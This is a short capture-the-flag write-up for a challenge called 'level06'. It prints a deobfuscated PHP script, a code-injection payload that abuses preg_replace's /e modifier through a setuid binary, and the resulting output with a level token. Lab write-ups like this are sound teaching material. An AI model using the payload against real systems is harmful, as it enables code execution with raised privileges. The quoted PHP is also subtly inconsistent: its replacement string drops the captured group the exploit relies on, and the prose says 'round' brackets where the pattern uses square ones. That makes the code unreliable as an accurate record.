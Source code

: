# level06 solution
Given setuid binary which calls php script with provided arguments. If we take a look at provided php script we will find that it was obusficated, but we can easily deobusficate it via online service and get:

    <?php
    function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
    }
    function x($y, $z) {
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\")", $a);
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
    }
    $r = x($argv[1], $argv[2]);
    print $r;
    ?>

This php script reads the content of provided file and replace some symbols with preg_replace. First preg_replace function entry in x function is matching any number of any symbols inside round brackets of expression '[x ()]' which is unsafe/ We can abuse that by running this script on file with content that match this pattern:

    [x {${exec(getflag)}}]

Anything put inside inner curly brackets will be executed by php script. If we provide file to setuid binary with such content we will get token for the next level:

    PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
